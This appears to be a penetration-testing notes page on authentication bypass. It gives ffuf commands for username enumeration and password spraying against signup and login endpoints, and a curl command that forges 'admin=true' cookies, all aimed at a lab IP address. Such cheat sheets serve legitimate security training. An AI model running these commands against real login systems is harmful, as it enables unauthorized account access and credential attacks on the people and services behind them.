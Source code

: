 ```yaml
---
description: Bypass logins and authentication systems
---
```


# Authentication Bypass

## Username Enumeration

On any signup/signin page having a username and password, we can first intercept any signup/signin requests and perform username enumeration, if we get error messages "like username already exists", or, "password for this username is wrong".

#### using ffuf

{% code overflow="wrap" %}
```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.32.200/customers/signup -mr "username already exists"
```
{% endcode %}

### Password spray

Once we know the username we can try out password spray attacks.

{% code overflow="wrap" %}
```bash
ffuf -w username.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.32.200/customers/login -fc 200 
```
{% endcode %}

### Cookie Tampering

{% code overflow="wrap" %}
```bash
curl -H "Cookie: logged_in=true; admin=true" http://10.10.32.200/cookie-test
```
{% endcode %}
